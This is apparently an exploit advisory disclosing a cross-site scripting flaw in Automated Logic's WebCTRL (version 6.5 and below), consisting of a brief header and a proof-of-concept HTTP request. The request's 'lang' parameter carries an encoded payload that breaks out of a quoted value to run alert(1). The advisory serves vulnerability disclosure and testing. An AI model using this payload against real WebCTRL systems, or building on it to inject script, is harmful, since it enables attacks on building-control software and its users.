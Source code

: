 # XSS vulnerability in Automated Logic's WebCTRL product
Exploit Title:  XSS in Automated Logic WebCTRL
Google Dork: -
Date: 2020-08-25

Exploit Author: İsmail ERKEK 

Vendor Homepage: https://www.automatedlogic.com/

Version: 6.5 and below

Tested on: -

# Proof of Concept Request
-------------------------------------------------
GET /_common/lvl5/failuremessage.jsp?message1=Operator_authentication_failed1&message2=Operator_authentication_failed2&lang=en61302%26%23x22%3b%3balert(1)%2f%2f107 HTTP/1.1
Host: 127.0.0.1
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://127.0.0.1/?language=en
Cookie: JSESSIONID=15B8DBC7037CBF79B647B8D6F0ABEF0B
